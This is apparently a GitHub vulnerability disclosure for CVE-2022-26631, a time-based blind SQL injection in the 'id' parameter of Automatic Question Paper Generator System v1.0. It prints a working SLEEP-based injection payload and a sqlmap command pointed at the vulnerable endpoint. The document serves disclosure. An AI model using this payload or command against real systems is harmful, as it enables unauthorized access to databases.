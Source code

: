 # CVE-2022-26631
CVE-2022-26631 - Automatic Question Paper Generator v1.0 SQLi

# Description
The `id` GET parameter from Automatic Question Paper Generator System v1.0 appears to be vulnerable to Time-Based Blind SQL injection attacks.

# Payload
An attacker could execute the following SQLi payload in order to gain access to the MySQL database.

`id=1' AND (SELECT 2599 FROM (SELECT(SLEEP(5)))eRGe) AND 'YFLg'='YFLg`

For simplicity, an attacker could automate the exploitation use the tool 'sqlmap' with the following command.

`sqlmap -u 'http://target-url/aqpg/users/question_papers/manage_generate_form.php?id=1' --batch`

